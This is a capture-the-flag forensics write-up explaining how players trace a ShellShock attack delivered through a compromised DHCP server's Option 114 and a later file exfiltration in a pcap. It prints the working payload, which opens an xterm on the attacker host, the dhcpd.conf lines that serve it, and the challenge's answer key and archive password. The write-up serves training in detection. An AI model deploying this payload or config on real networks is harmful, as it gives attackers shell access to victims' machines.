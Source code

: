 Escapee Writeup
===================
## Category
Detect and Defend

## Question
Corporate secrets have been exfiltrated. Analyse the pcap, locate the victim and find the exploit. [exfil.zip (~241MB)](https://drive.google.com/file/d/0BwXhXHcd49sSNWhyLWs4bHAwcFU) **Password: Yei7igohjoteixoxe2qu**. Submit the VICTIM IP and full exploit payload in quotes as your answer. I.e XX.XX.XX.XX "{exploit payload}"

## Designed Solution
The corporate DHCP server has been compromised (weak admin password). The DHCP service is sending a ShellShock exploit as Option 114 (default url). The exploit initiates an X11 session from the
victim to the DHCP server. Once established, corpsecrets.7z is copied via SCP from the victim to the DHCP server and subsequently from the DHCP server to an external host in 10/8 (the final exfil).
*Corpsecrets.7z is just a dummy file. It is encrypted with a random password. There is no point trying to extract the contents.*

## Hints Given
None

## Player Solution Comments
Teams often confused the exfiltrated file with the exploit payload. Some often submitted the DHCP servers IP instead of the Victim. Two teams got the both responses correct.

## Writeup
Using wireshark or similar, players should detect interesting traffic flows such as SCP from compromised client to DHCP server  `172.16.202.105` -> `172.16.203.200` and / or subsequently SCP on port 80 from the DHCP server to offnet server `10.66.212.93`. The flows should be evident if analysing flow duration, protocol, or traffic volume. There is background TCP port 80 traffic generated from the client segment to the server segment (specifically server 172.16.203.230). Once the victim `172.16.202.105` is identified, then working back through time, an X11 session should be discovered which is initiated by the client to the DHCP server. This was caused by a DHCP offer packet.

Victim is `172.16.202.105` and shellshock exploit is ``“() { ignored;}; /usr/bin/xterm -display 172.16.203.200:1”`

**dhcpd.conf snippet**
```
#shellshock test
option shellshock code 114 = text;
if exists dhcp-parameter-request-list {
  option dhcp-parameter-request-list=concat(option dhcp-parameter-request-list,72);
}
#scope with exploit
subnet 172.16.202.0 netmask 255.255.255.0 {
  range 172.16.202.100 172.16.202.199;
  option shellshock "() { ignored;}; /usr/bin/xterm -display 172.16.203.200:1";
```
